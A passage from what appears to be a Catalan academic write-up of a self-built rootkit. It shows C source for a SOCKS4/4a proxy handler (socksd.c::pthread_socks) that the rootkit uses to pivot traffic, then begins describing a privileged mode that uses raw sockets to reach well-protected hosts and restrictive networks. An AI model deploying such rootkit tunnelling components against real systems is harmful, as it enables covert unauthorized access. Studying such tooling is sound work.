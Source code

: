 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[void] @PYaL[pthread_socks](@PYaJ[void] @PYbe[*]sock) {
    @PYay[struct] message req;
    @PYay[struct] in_addr in;

    @PYaE[// read client packet]
    read((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](@PYay[struct] message));
    @PYaJ[char] buf@PYZlb[]@PYag[4]@PYZrb[];
    read((@PYaJ[int])sock, buf, @PYag[4]);
    print_message(@PYbe[&]req);

    @PYaE[// if client is using socks4a]
    in.s_addr @PYbe[=] req.dstip;
    @PYay[if] (strstr(inet_ntoa(in), @PYaB["]@PYaB[0.0.0]@PYaB["])) {
		@PYaJ[char] dstip4a@PYZlb[]@PYag[1024]@PYZrb[];
		read((@PYaJ[int])sock, dstip4a, @PYag[1024]);
		req.dstip @PYbe[=] resolve(dstip4a, @PYag[0]);
	}

    @PYaE[// socks]
    @PYaJ[int] sock2;
    @PYay[if] ((sock2 @PYbe[=] launcher_rcon(req.dstip, ntohs(req.dstport))) @PYbe[>] @PYag[0]) {
        debug(@PYaB["]@PYaB[Connected!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[90];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
        socks_forward((@PYaJ[int])sock, sock2);
    } @PYay[else] {
        debug(@PYaB["]@PYaB[ERROR!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[91];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
    }
    close((@PYaJ[int])sock);
    close(sock2);
    exit(@PYag[0]);
}
\end{Verbatim}
    \caption{socksd.c::pthread\_socks()}
    \label{fig:socksd}
\end{figure}

En la figura \ref{fig:socksd} es mostra la funció més caracteristica d'aquesta funcionalitat, ja que és 
la funció que interpreta les capçaleres socks4 i socks4a. En ella, podem veure com omplim l'estructura
message amb la capçalera que ens envia el client. Just després, es comproba si la destinació és una 
destinació vàlida o no, i en cas de no ser-ho, es llegeix més enllà de la capçalera on si espera trobar 
el nom DNS del host on establir la connexió. \\
Com podem veure, just abans de passar a reenviar incondicionalment tot el tràfic entre els dos cantons
de la conneixó, cal que enviem al client, un missatge comunicant-li si la connexió s'ha pogut establir
o no.

\section{Entorn privilegiat}
En l'entorn privilegiat, el nostre rootkit s'aprofita de la possibilitat de poder utilitzar raw sockets 
per tal d'implementar modes de comunicació pensats per comunicar-se amb sistemes molt protegits i xarxes 
molt restrictives, i de la possibilitat de debugar serveis del sistema. \\

